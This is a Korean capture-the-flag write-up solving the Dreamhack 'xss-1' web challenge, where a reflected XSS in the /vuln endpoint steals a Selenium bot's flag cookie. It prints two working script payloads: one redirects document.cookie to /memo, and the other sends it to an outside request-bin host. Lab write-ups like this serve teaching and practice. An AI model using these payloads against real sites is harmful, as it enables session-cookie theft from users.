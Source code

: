 ## 📍xss-1

```
여러 기능과 입력받은 URL을 확인하는 봇이 구현된 서비스입니다.  
XSS 취약점을 이용해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.
```

들어가보면 /, /vuln, /memo, /flag 4개의 페이지를 제공한다.


#### 소스코드

vuln 페이지는 이용자가 전달한 `param` 파라미터의 값을 출력한다.
![](Attachments/BC90F34F-D2E9-4BB2-94C8-98712D5652CB.png)

memo 페이지는 이용자가 전달한 `memo` 파라미터 값을 `memo_text`에 추가하고, `render_template` 함수를 통해 출력한다.
![](Attachments/D5DB0D21-75EE-49F1-A59B-A3AB76EB8F65.png)

flag 페이지는 GET 요청의 경우 이용자에게 URL을 입력받는 페이지를 제공한다.
POST 요청의 경우, 이용자가 전달한 `param` 파라미터에 값과 쿠키에 FLAG를 포함해 `check_xss` 함수를 호출한다.
![](Attachments/3FB2C24F-6461-443E-8E00-112267906E2B.png)

`check_xss` 함수는 `read_url` 함수를 호출해서 vuln 엔드포인트에 접속한다.
![](Attachments/2351CE11-953A-42F5-99FD-E1B6368DE7FC.png)


`read_url` 함수는 Selenium 웹드라이버를 사용해 쿠키를 추가하고 주어진 url에 접속하는 함수였다.
따라서 FLAG는 Selenium 봇의 쿠키에 들어가 있으므로 쿠키를 탈취해야 한다.


#### 취약점

vuln과 memo는 둘 다 이용자의 입력값을 페이지에 출력하지만, memo는 `render_translate` 함수를 사용해서 출력한다. `render_template` 함수는 전달된 템플릿 변수를 기록할 때 HTML 엔티티코드로 변환해 저장하기 때문에 XSS가 발생하지 않는다.
vuln은 이용자의 입력값을 페이지에 그대로 출력하기 때문에 XSS가 발생한다.


#### 해결

vuln 엔드포인트에서 발생하는 XSS 취약점을 통해 Selenium 봇의 쿠키를 탈취한다.
(document.cookie)

memo 페이지는 이용자가 추가한 값을 출력하므로, flag 값을 확인하려면 flag 엔드포인트에서 이런 코드를 입력한다.
```javascript
<script>location.href = "/memo?memo=" + document.cookie;</script>
```

![](Attachments/C17C5A5F-96CF-4200-B806-B48F0973DC6E.png)

memo 페이지에 flag 값이 출력되어 있다.
![](Attachments/9FB04350-D727-4022-9DFA-D48C63DAEF63.png)



혹은 외부에서 접근 가능한 웹 서버 주소를 넣어서 탈취한 쿠키를 확인할 수도 있다.
https://tools.dreamhack.games/main
```javascript
<script>
	location.href = "EXAMPLEHOST.request.dreamhack.games/?memo=" + document.cookie;
</script>
```
![](Attachments/A6D2590A-D1D7-416C-BAF0-46C62414563F.png)

